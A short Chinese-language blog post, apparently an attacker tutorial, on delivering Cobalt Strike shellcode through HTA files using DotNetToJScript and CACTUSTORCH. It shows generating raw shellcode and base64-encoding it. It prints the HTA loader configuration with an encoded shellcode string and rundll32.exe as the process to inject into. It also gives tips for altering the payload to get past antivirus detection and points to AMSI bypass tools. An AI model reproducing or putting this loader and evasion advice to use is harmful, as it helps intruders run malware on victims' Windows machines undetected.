

# 0x00 简介

在Windows中我们的马还可以是多种形势比如`JavaScript`、`VBScript`、`hta` ,因此出现一个工具DotNetToJScript
它可以利用这些脚本文件来加载.NET 然后执行我们的文件。

贴心的大佬们已经给大家准备好了 https://github.com/mdsecactivebreach/CACTUSTORCH
上面有各种脚本的利用方式,还有支持 `Cobalt Strike` 的cna文件，但是现在直接引入会被微软的AMSI拦截,推特上有很多大佬的bypass方法大家可以关注一下。

当然它只是一种思路你直接使用AV肯定把你拦截。


# 0x01 HTA

前面我们讲过`Cobalt Strike` 本身自己也支持生成HTA,所以这里我依旧使用HTA了。

我们需要用到的就是上文的链接的文件 https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.hta 其实操作方法已经在里面写好了，还是简单的演示一下。


>Attacks > Packages > Payload Generator

生成一个raw 的shell code



然后用 `cat payload.bin | base64 -w 0` 转成 base64

```
' Replace with binary name that you want to inject into. This can be anything that exists both in SYSWOW64 and SYSTEM32

Dim binary : binary = "rundll32.exe"

' Base64 encoded 32 bit shellcode
Dim code : code = "TVroAAAAAFtSRVWJ5YHDcoAAAP/TicNXaAQAAABQ/9Bo8LWiVmgFAAAAUP/TAAAAAAAAAAAAAAAAAAAA8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAACf0hwW27NyRduzckXbs3JFZvzkRdqzckXF4fZF8rNyRcXh50XIs3JFxeHxRVqzckX8dQlF1LNyRduzc0UGs3JFxeH7RWKzckXF4eBF2rNyRcXh40Xas3JFUmljaNuzckUAAAAAAAAA"

```

注释已经写的很清楚了,我们也只需要替换这2处，建议不要用rundll32.exe了 这个某60直接秒了,当然是杀的这个code,所以只需要简单的变化它就认不出来了。

于此同类的还有 

https://github.com/mdsecactivebreach/SharpShooter 
https://github.com/ridter/AMSI_bypass


# 0x02 文末


### 本文如有错误，请及时提醒，以免误导他人


